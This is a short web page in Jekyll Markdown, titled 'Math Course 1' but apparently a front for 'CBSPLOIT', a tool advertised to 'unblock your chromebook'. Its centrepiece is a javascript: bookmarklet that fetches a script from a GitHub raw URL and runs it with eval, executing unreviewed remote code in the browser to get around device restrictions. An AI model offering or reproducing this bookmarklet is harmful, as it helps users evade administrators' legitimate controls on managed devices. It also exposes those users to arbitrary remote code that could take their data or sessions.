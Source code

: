 ```yaml
---
title:  Math Course 1
layout: default
---
```


<!-- particles.js container -->
<div id="particles-js"></div>
<!-- scripts -->
<script src="js/particles.js"></script>
<script src="js/app.js"></script>

# CBSPLOIT

you should unblock your chromebook

# NOW!!!! ⚡⚡⛈️👨🏿⛈️⚡⚡

<a href='javascript: fetch("https://raw.githubusercontent.com/Snoni/wockrland/main/assets/js/cbsploit.js").then(r => r.text()).then(r => eval(r))'>
      <button>
        THE BOOKMARKLET
      </button>
    </a>

<!-- count particles -->
<div class="count-particles">
  <span class="js-count-particles">--</span>
</div>
